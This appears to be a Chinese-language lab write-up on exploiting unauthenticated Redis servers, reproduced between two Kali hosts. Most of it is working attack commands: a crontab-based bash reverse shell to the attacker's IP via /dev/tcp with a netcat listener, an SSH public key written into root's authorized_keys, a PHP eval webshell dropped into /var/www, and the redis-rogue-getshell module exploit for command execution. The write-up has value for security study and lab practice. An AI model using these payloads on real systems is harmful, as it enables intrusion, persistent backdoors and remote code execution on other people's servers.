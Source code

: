# Redis未授权

## 1.1、漏洞描述

（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；

（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。

## 1.2、影响版本

redis 4.x/5.x或以前的版本

## 1.3、漏洞复现

> kali攻击方：192.168.8.20
>
> kali靶机：192.168.8.8

### 环境搭建

> 两台主机都要有redis环境

```bash
apt-get install gcc
wget http://download.redis.io/releases/redis-2.8.17.tar.gz
tar xf redis-2.8.17.tar.gz
cd redis-2.8.17
make
cd src
./redis-server   #启动redis服务端
```

![image-20231019203609688](./imgs/image-20231019203609688.png)

查看开放端口

```bash
ss -antpl
```

![image-20231019203714913](./imgs/image-20231019203714913.png)



| 读取数据库内容 | 读取系统文件                                                 | 执行系统命令                                                 |
| -------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| 信息泄露<br>   | 直接写WebShell<br><br/>计划任务反弹Shell<br/><br/>SSH免密登录<br/><br/>.... | [redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)<br>[redis REC-EXP](https://github.com/n0b0dyCN/redis-rogue-server) |



### :heart_eyes_cat:写入计划任务获取反弹shell

> 由于Redis存在未授权访问漏洞，所以无需账号密码就可以在我们的Redis目录下去远程控制靶机的Redis数据库，但是我们希望不仅仅是可以操作对方的Redis数据库，想提权去控制服务器，比较容易想到的就是想办法写个反弹shell，让靶机来连接我们，如果可以成功反弹，我们就可以提权。我们想到可以让靶机设定一个定时来连接攻击机的计划任务，从而实现反弹；但是写计划任务是需要在计划任务的目录`/var/spool/cron`中去执行命令，而我们现在只能操作数据库，根本没办法去进入到服务器的计划任务目录，更别说是写计划任务。
>
>  因此我们的思想就是：Redis把Redis持久化文件的写入目录改成存放计划任务的目录，因为这个操作是针对Redis的，所以这个操作是可以完成的；然后将持久化文件名更改为root，这样就可以覆盖系统上root用户的crontab文件；之后我们用redis的set命令写入一个键值对（set 命令必须得写成键值对），值就是反弹shell的命令；保存后，我们就成功地借用Redis数据库向服务器的计划任务里加入了一个反弹shell的计划任务，然后在攻击机进行监听，就可以成功提权。

1、攻击方连接靶机客户端

```bash
redis-cli -h 192.168.8.8
```

![image-20231019203800214](./imgs/image-20231019203800214.png)



2、用Redis的config set命令来更改靶机的Redis持久化目录，把Redis的持久化目录改成系统计划任务的目录

```bash
config set dir /var/spool/cron/crontabs
```

> **由于系统的不同，crontrab定时文件位置也会不同：**
>
> Centos的定时任务文件在`/var/spool/cron/<username>`
>
> Ubuntu/Kali的定时任务文件在`/var/spool/cron/crontabs/<username>`

3、用Redis的config set命令来重命名文件，覆盖掉原有的root文件

```bash
config set dbfilename root
```

4、使用Redis的set命令，往持久化目录文件里写一个键值对（这是set命令的格式要求，必须写键值对），键随便起，我起的是saury，值就为反弹shell的命令

```bash
set saury "\n* * * * * bash -i >& /dev/tcp/192.168.8.20/6868 0>&1\n"
save
```

![image-20231019204043197](./imgs/image-20231019204043197.png)

这步如果执行成功了之后，我们可以去靶机上看一眼，看看计划任务目录里的root文件内容有没有写进去

root权限查看哦!!!!!!

```bash
cd /var/spool/cron/crontabs
vim root
```

![image-20231019204057507](./imgs/image-20231019204057507.png)

也可以使用`crontab -l`查看



5、攻击机监听6868端口

```bash 
nc -lvp 6868
```

> 正常情况到这里，等待一分钟就应该接收到反弹了，但是实验中发现并没有。查阅资料发现：有可能是这个版本的crontab对计划任务格式的要求很严格，而在Redis中写入文件时，会自动在文件的开头和结尾写入部分格式头尾，也就是那些乱七八糟的前后缀，导致没有识别出计划任务，就没有成功执行，但复现原理和过程应该是没问题的。所以这个利用方法是有BUG的，不一定成功。

6   为了看到效果，我们可以在靶机上把乱七八糟的前后缀去掉，再等待一下，发现成功反弹。

![image-20231019204121718](./imgs/image-20231019204121718.png)





### :heart_eyes_cat:利用SSH写公钥，免密登陆

> 前提条件：目标机器开启了ssh服务，且以root权限启动redis

攻击机生成公钥

```bash
ssh-keygen -t rsa
```

防止其他数据干扰给在公钥内容前后加入换行：

```bash
(echo -e "\n\n"; cat /home/kali/.ssh/id_rsa.pub; echo -e "\n\n") > my.txt
```

将公钥发送到对方redis服务器的缓存中

```bash
cat my.txt | redis-cli -h 192.168.8.8 -x set hello
```

![image-20231019205026895](./imgs/image-20231019205026895.png)

将公钥写入ssh目录

```bash
redis-cli -h 192.168.8.8
config set dir /root/.ssh # 设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys # 设置保存文件名为authorized_keys
save # 将数据保存在目标服务器硬盘上
```

![image-20231019205507935](./imgs/image-20231019205507935.png)

### :heart_eyes_cat:利用Redis写WebShell

> 前提条件：需要对方开启了web服务和知道web路径，并有读写权限。
>
> ​		      无需是 root 起的 Redis

```bash
set x "\n\n\n<?php @eval($_POST[cmd]);?>\n\n\n" #加入\n\n\n防止乱码影响shell
config set dir /var/www/
config set dbfilename shell.php
save
```

### :heart_eyes_cat:Redis未授权执行系统命令

环境：`/vulhub/vulhub/redis/4-unacc`

`docker-compose up -d`启动环境后，连接`redis`客户端

无密码，直接连接成功

```bash
┌──(kali㉿kali)-[~/Vulnerability-library/vulhub/redis/4-unacc]
└─$ redis-cli -h 127.0.0.1   
127.0.0.1:6379> info
# Server
redis_version:4.0.14
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:3914f9509eb3b682
redis_mode:standalone
os:Linux 6.1.0-kali9-amd64 x86_64
.......
.......
```

![image-20230901185901167](./imgs/image-20230901185901167.png)

从`github`上把[redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)这个项目克隆下来

```
cd redis-rogue-getshell/RedisModulesSDK/
make
```

会生成一个`exp.so`文件，编译时会报错，不影响我们操作

```
cd ../
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "id"
```

执行`id`命令

![image-20230901192352869](./imgs/image-20230901192352869.png)

执行其他命令

```python
python3 redis-master.py -r 127.0.0.1 -p 6379 -L 192.168.80.141 -P 8888 -f RedisModulesSDK/exp.so -c "whoami"
```

![image-20230901192429115](./imgs/image-20230901192429115.png)







## 3、检测未授权访问漏洞检测工具

[下载地址](https://github.com/xk11z/unauthorized_com)

## 4、参考

- [面试经典 Redis未授权漏洞与组合拳](https://www.freebuf.com/vuls/349094.html)